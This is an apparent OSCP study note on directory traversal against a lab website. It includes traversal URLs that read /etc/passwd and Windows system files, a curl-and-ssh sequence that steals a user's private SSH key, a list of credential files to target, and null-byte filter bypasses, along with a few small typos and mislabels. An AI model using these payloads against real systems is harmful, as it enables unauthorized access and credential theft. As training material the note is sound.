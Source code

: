 
Allows attackers to gain unauthorized access to files within an app or files not normally accessible through a web interface.  
This vuln occurs when input is poorly validated allowing for manipulation of file paths with _**../**_ or _**..\\**_  
  
Can be used to help facilitate [file inclusion](9.2%20-%20File%20Inclusion.md) attacks.  

#### Absolute paths
Ex (from user's home folder):   /etc/passwd
- Specifies the full file system path including all subdirectories
- Starts with a '/' to denote the root file system

#### Relative paths
Ex (from user's home folder): ../../etc/passwd
- Refer to the path of a file/ dir relatively from where you currently are
	- Ex:     ../
- Number of **../** sequences is only relevant until the root file system is reached.
- Theoretically, can add as many **../** as desired, since there is nowhere further back to go from **/**
	- Can be useful in certain situations: when we don't know our current working directory.
		- Could specify a large number of **../** to ensure we reach the root file system from a relative pathing perspective.

#### Standard web root directories

Apache
- /var/www/html/  
MariaDB
- C:/xampp/htdocs/  
Nginx
- /usr/share/nginx/html  
- /data/www/

## ID'ing

Always important to hover over all buttons and links to gather info about the page's structure and how parameters are crafted, etc.

Found by examining URL query strings and form bodies in search of values that appear as file references (inc file extensions in URL query strings)  
Ex URL:  
```html
http://target.com/cms/login.php?language=en.html
```
	Note: Site uses php ^ (most aren't this obvious)
	the *language* parameter has an HTML page as its value.  if you can successfully open it, you can canfirm that en.html is a file on the server
		and can try other file names.
	*cms* directory indicates that the web app is running in a subdirectory of the web root
	
Test if file exists on the server:
```html
http://target.com/cms/en.html
```
	If successful, means it's a file stored on the server and allows for a potential entry point for other file names
	Always examine parameters closely when they use files as a value.

Depending on the error message received after playing with the ‘file’ parameter value, we may determine the OS and be able to adjust the XSS payload to target specific files  
Ex URL:  
```html
http://target.com/menu.php?file=c:\windows\system32\drivers\etc\hosts
```


## Testing

When viewing sites and their pages URLs, noticing how parameters for viewing these pages is important.
Scrolling down to the bottom of OSCP's example site, notice a link labeled 'Admin'
![](admin_oscpsite.png)
	Hovering over reveals the link:
```html
http://mountaindesserts.com/meteor/index.php?page=admin.php
```

PHP uses **$\_GET** to manage variables via the GET request.

Clicking on the link presents us an error message stating that the page is currently under maintenance.
![](adminlink_oscpsite.png)
	This info is shown on the SAME page as the index....

Navigating to **hxxp://mountaindeserts[.]com/meteor/admin.php** will show the SAME message that was shown on the **index.php** page after clicking the 'Admin' link.

***What this indicates***  is that the webapp includes the content of the admin.php page via the *page* parameter and displays it under the 'Admin' link
	- Hints at a potentially vulnerable parameter

Can now try to use **../** to traverse directories
```html
http://mountaindesserts.com/meteor/index.php?page=../../../../../../etc/passwrd
```
![](dir_traversal.png)

## Encoding Special Characters


## Useful directories and files

When retrieving important files (rsa private key for example), use [**curl**](OS%20Commands.md#curl) to obtain the information.
- Browsers often try to parse or optimize elements for user friendliness which could lead to issues.
- HTTP code with be returned, so only copy/ save the part you need.
	- For SSH keys, copy from **-----BEGIN OPENSSH PRIVATE KEY-----** through **-----END OPENSSH PRIVATE KEY-----** only
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../../home/offsec/.ssh/id_rsa
# copy ssh key parts only & save to a file <key_file>
# change the perms of the file to be strict
chmod 400 <key_file>
# connect via their ssh key
ssh -i <key_file> -p 2222 offsec@mountaindesserts.com
```


#### Linux  - /
- /etc/password - (get user names)
- /etc/shadow - (get user hashes)
- /etc/hosts - (get internal network mapping)
- /home/\<user>/.ssh/id_rsa - (get ssh keys from said users)
  
#### Windows  - \\
- C\:\\boot.ini
- C\:\\windows\\system32\\drivers\\etc\\hosts
- C:\\inetpub\\logs\\LogFiles\\W3SVC1\\. - (If running IIS web server, get logs)
- C:\\inetpub\\wwwroot\\web.config - (If running IIS web server, potentially get usernames or passwords)
  
  
## Null Bytes
Developers can specify the type of file it's looking for:  
```html
http://target.com/menu.php?file=/etc/passwd
<!--becomes-->
http://target.com/menu.php?file/etc/passwd.php
```
  
Adding the Null Byte _%00_ or _0x00_ to terminate the string and trick the webapp into ignoring everything else afterwards:  
```html
http://target.com/menu.php?file=/etc/passwd%00
```


*This is patched in PHP 5.3.4 and above  
  
If the files are blocked, can attempt to view them by adding a _./_ at the end:  
```html
http://target.com/menu.php?file=../../../../etc/passwd/.
```
